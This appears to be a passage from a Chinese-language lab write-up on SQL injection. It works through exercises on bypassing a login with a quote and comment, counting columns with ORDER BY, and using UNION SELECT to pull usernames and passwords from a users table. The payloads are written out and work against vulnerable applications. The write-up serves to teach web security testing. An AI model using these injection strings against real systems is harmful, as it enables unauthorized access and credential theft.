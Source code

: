 <hr/>
part2：
POST数据包中有csrf、username、password三个参数
 <img alt="" height="509" src="https://img-blog.csdnimg.cn/c0fbf6a7c73e44d19649af948e1c0dd3.png" width="662"/>
 在username后加上'--注释掉后面的内容
（前提不是预编译那种，且没过滤，害）




---


---


---


## 四、从其他数据库表中检索数据

> 
心得：union联合查询（类似的还有堆叠注入，order by分类）
<pre><code>示例：
如果 SQL 查询的结果在应用程序的响应中返回，攻击者可以利用 SQL 注入漏洞从数据库中的其他表中检索数据。这是使用关键字完成的，该关键字允许您执行其他查询并将结果追加到原始查询。UNIONSELECT
例如，如果应用程序执行以下包含用户输入“礼物”的查询：
SELECT name, description FROM products WHERE category = 'Gifts'</code></pre>

<pre><code>注入：
攻击者可以提交输入：
' UNION SELECT username, password FROM users--</code></pre>
<hr/>
<h3>实验3：判断列</h3>
part1：<br/>  
<pre><code>点击一个分类
然后判断列数
'order by 3 --
正常回显</code></pre>

<pre><code>'order by 4 --

报错</code></pre>

<hr/>
part2：
本题是要使用union select
<pre>`'union+select+null,null,null--`</pre>




---


> 
心得：判断字段数，以及可回现的位置、字段名
<h3>实验4：判断字段对应位置</h3>
part1：
<pre>`'union+select+'NeXKXZ',null,null--`</pre>
使用题目给的字符串，3个位置依次换，直到对上指定列的位置
